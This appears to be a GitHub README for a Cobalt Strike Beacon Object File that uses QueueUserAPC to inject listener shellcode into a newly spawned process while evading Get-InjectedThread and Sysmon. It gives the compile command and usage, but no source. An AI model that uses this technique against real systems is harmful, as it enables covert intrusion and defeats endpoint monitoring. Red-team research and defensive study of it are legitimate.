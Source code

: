 # QueueUserAPC Spawn

A Beacon Object File version of the method https://sevrosecurity.com/2020/04/13/process-injection-part-2-queueuserapc/ used to bypass Get-InjectedThread and Sysmon.

Spawn a path child process and injects shellcode into it.

# Compile
`x86_64-w64-mingw32-gcc -c qua_spawn.c -o qua_spawn.o`

# Usage

NOTE: Currently only for x64

Load the CNA script in Cobalt Strike, then the following command will be included:

`qua_spawn PATH Listener` - Inject shellcode created for listener to target PID

Example to spawn calc.exe with a listener named Test: `qua_spawn C:\Windows\System32\calc.exe Test`
